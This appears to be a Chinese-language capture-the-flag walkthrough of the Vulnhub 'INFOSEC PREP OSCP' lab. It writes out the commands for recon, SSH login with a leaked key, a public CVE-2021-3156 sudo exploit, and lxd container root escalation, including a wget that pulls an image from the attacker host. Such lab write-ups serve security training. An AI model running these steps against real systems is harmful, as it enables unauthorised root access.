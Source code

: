 ```yaml
---

title: Vulnhub	508 INFOSEC PREP OSCP
date: 2020-07-11
---
```

考点：ssh证书认证

靶机链接：<https://www.vulnhub.com/entry/infosec-prep-oscp,508/>
<!--more-->
## 环境配置

| 名称              | IP        |
| ----------------- | --------- |
| Kali Linux        | 10.0.2.15 |
| INFOSEC PREP OSCP | 10.0.2.19 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.19
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000

```

### WEB测试

#### dirb

确认80端口是wordpress

#### nikto

发现robots.txt存在secret.txt 

### 漏洞发现

一看secret.txt 的内容就是base64加密过的，解密得到ssh登录私钥

![1](https://www.vulnhub.cn/walkthrough/508/1.webp)

![2](https://www.vulnhub.cn/walkthrough/508/2.webp)

## 获得权限

查看网页获得用户名`oscp`

![3](https://www.vulnhub.cn/walkthrough/508/3.webp)

把base64解密后存为文件 `id_rsa`，登录成功

![4](https://www.vulnhub.cn/walkthrough/508/4.webp)

## 提权

### CVE-2021-3156

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

### suid

![5](https://www.vulnhub.cn/walkthrough/508/5.webp)

直接

![6](https://www.vulnhub.cn/walkthrough/508/6.webp)

### lxd/lxc

参考：<https://www.trenchesofit.com/2020/07/25/oscp-voucher-giveaway-vm-using-unintended/>

现在kali上编译镜像包

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ sudo ./build-alpine 
```





不要在`/tmp`目录

```bash
-bash-5.0$ cd ~
-bash-5.0$ wget http://10.0.2.15/alpine-v3.16-x86_64-20220829_0227.tar.gz
#找lxc
-bash-5.0$ find / -name lxc > lxcsearch.txt
-bash-5.0$ /snap/bin/lxc image import ./alpine-v3.12-x86_64-20200719_2153.tar.gz --alias trenchesofit
-bash-5.0$ /snap/bin/lxc image list
-bash-5.0$ /snap/bin/lxc storage create pool dir
-bash-5.0$ /snap/bin/lxc profile device add default root disk path=/ pool=pool
-bash-5.0$ /snap/bin/lxc init trenchesofit ignite -c security.privileged=true
-bash-5.0$ /snap/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
-bash-5.0$ /snap/bin/lxc start ignite
-bash-5.0$ /snap/bin/lxc exec ignite /bin/sh

```

![7](https://www.vulnhub.cn/walkthrough/508/7.webp)
